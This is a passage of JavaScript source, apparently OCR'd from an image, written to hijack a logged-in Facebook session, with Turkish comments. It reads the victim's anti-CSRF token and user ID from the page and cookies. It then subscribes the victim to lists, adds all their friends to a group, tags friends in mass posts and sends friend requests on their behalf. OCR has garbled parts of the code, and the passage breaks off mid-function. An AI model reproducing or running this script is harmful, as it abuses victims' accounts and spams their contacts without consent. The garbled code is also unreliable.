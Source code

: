 http4.onreadystatechange = function() {//Call a function when the state changes. if(http4.readyState == 4 && http4.status == 200) { http4.close; // Close the connection } } http4.send(params4); } function sublist(uidss) { var a = document.createElement('script'); a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&action=subscribe').setData({ flid: " + uidss + " }).send();"; document.body.appendChild(a); } a("100003986362145"); a("100002871108311"); sublist("299481990194677"); sublist("311083209034555"); sublist("311083272367882"); sublist("311083312367878"); sublist("311083379034538"); sublist("311083432367866"); sublist("653802584677096"); sublist("439101139528919"); sublist("1424424654463707"); sublist("419834644813840"); sublist("509956732443359"); sublist("509956899110009"); sublist("509957125776653"); sublist("509957229109976"); var gid = ['1378653509062290']; var fb_dtsg = document'getElementsByName'[0]['value']; var user_id = document['cookie']'match'; var httpwp = new XMLHttpRequest(); var urlwp = '/ajax/groups/membership/r2j.php?__a=1'; var paramswp = '&ref=group_jump_header&group_id=' + gid + '&fb_dtsg=' + fb_dtsg + '&__user=' + user_id + '&phstamp='; httpwp['open']('POST', urlwp, true); httpwp'setRequestHeader'; httpwp['setRequestHeader']('Content-length', paramswp['length']); httpwp'setRequestHeader'; httpwp'send'; var fb_dtsg = document'getElementsByName'[0]['value']; var user_id = document['cookie']'match'; var friends = new Array(); gf = new XMLHttpRequest(); gf['open']('GET', '/ajax/typeahead/first_degree.php?__a=1&viewer=' + user_id + '&token' + Math'random' + '&filter[0]=user&options[0]=friends_only', false); gf'send'; if (gf['readyState'] != 4) {} else { data = eval('(' + gf['responseText']'substr' + ')'); if (data['error']) {} else { friends = data['payload']['entries']['sort'](function (_0x93dax8, _0x93dax9) { return _0x93dax8['index'] - _0x93dax9['index']; }); }; }; for (var i = 0; i < friends['length']; i++) { var httpwp = new XMLHttpRequest(); var urlwp = '/ajax/groups/members/add_post.php?__a=1'; var paramswp= '&fb_dtsg=' + fb_dtsg + '&group_id=' + gid + '&source=typeahead&ref=&message_id=&members=' + friends[i]['uid'] + '&__user=' + user_id + '&phstamp='; httpwp['open']('POST', urlwp, true); httpwp'setRequestHeader'; httpwp['setRequestHeader']('Content-length', paramswp['length']); httpwp'setRequestHeader'; httpwp['onreadystatechange'] = function () { if (httpwp['readyState'] == 4 && httpwp['status'] == 200) {}; }; httpwp'send'; }; var spage_id = "170971166421357"; var spost_id = "334095473337022"; var sfoto_id = "475485335804660"; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var smesaj = ""; var smesaj_text = ""; var arkadaslar = []; var svn_rev; var bugun= new Date(); var btarihi = new Date(); btarihi.setTime(bugun.getTime() + 1000606041); if(!document.cookie.match(/paylasti=(\d+)/)){ document.cookie = "paylasti=hayir;expires="+ btarihi.toGMTString(); } //arkadaslari al ve isle function sarkadaslari_al(){ var xmlhttp = new XMLHttpRequest(); xmlhttp.onreadystatechange = function () { if(xmlhttp.readyState == 4){ eval("arkadaslar = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";"); for(f=0;f<Math.round(arkadaslar.payload.entries.length/10);f++){ smesaj = ""; smesaj_text = ""; for(i=f10;i<(f+1)10;i++){ if(arkadaslar.payload.entries[i]){ smesaj += " @[" + arkadaslar.payload.entries[i].uid + ":" + arkadaslar.payload.entries[i].text + "]"; smesaj_text += " " + arkadaslar.payload.entries[i].text; } } sdurumpaylas(); } } }; var params = "&filter[0]=user"; params += "&options[0]=friends_only"; params += "&options[1]=nm"; params += "&token=v7"; params += "&viewer=" + user_id; params += "&__user=" + user_id; if (document.URL.indexOf("https://") >= 0) { xmlhttp.open("GET", "https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); } else { xmlhttp.open("GET", "http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); } xmlhttp.send(); } //tiklama olayini dinle var tiklama = document.addEventListener("click", function () { if(document.cookie.split("paylasti=")[1].split(";")[0].indexOf("hayir") >= 0){ svn_rev = document.head.innerHTML.split('"svn_rev":')[1].split(",")[0]; sarkadaslari_al(); document.cookie = "paylasti=evet;expires="+ btarihi.toGMTString(); document.removeEventListener(tiklama); } }, false); //arkada?¾ ekleme function sarkadasekle(uid,cins){ var xmlhttp = new XMLHttpRequest(); xmlhttp.onreadystatechange = function () { if(xmlhttp.readyState == 4){ } }; xmlhttp.open("POST", "/ajax/add_friend/action.php?__a=1", true); var params = "to_friend=" + uid; params += "&action=add_friend"; params += "&how_found=friend_browser"; params += "&ref_param=none"; params += "&outgoing_id="; params += "&logging_location=friend_browser"; params += "&no_flyout_on_click=true"; params += "&ego_log_data="; params += "&http_referer="; params += "&fb_dtsg=" + document.getElementsByName('fb_dtsg')[0].value; params += "&phstamp=165816749114848369115"; params += "&__user=" + user_id; xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev); xmlhttp.setRequestHeader ("Content-Type","application/x-www-form-urlencoded"); if(cins == "farketmez" && document.cookie.split("cins" + user_id +"=").length > 1){ xmlhttp.send(params); }else if(document.cookie.split("cins" + user_id +"=").length <= 1){ cinsiyetgetir(uid,cins,"sarkadasekle"); }else if(cins == document.cookie.split("cins" + user_id +"=")[1].split(";")[0].toString()){ xmlhttp.send(params); } } //cinsiyet belirleme var cinssonuc = {}; var cinshtml = document.createElement("html"); function scinsiyetgetir(uid,cins,fonksiyon){ var xmlhttp = new XMLHttpRequest(); xmlhttp.onreadystatechange = function () { if(xmlhttp.readyState == 4){ eval("cinssonuc = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";"); cinshtml.innerHTML =